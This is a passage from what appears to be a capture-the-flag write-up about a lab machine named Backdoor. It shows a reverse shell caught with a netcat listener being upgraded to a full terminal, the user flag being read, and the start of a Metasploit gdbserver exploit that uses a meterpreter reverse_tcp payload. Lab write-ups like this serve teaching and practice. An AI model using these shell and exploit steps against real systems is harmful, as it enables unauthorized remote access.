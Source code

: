 I’ll do a shell upgrade with `script`:

```

script /dev/null -c bash
Script started, file is /dev/null
user@Backdoor:/home/user$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
user@Backdoor:/home/user$

```

I’m told that there may be issues running `gdb` with a different version than the server. I didn’t have any issues, but in this case my VM and the target are both Ubuntu 20.04. If you have issues from Kali or Parrot, that may be the problem.

I can also grab `user.txt`:

```

user@Backdoor:/home/user$ cat user.txt
0d183e76************************

```

#### With MSF

The simpler way to exploit this is using Metasploit. I’ll start `msfconsole`, and find the exploit:

```

oxdf@hacky$ msfconsole 
...[snip]...
msf6 > search gdb

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/gdb/gdb_server_exec               2014-08-24       great      No     GDB Server Remote Payload Execution
   1  exploit/linux/local/ptrace_sudo_token_priv_esc  2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation

Interact with a module by name or index. For example info 1, use 1 or use exploit/linux/local/ptrace_sudo_token_priv_esc

msf6 > use 0
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) >

```
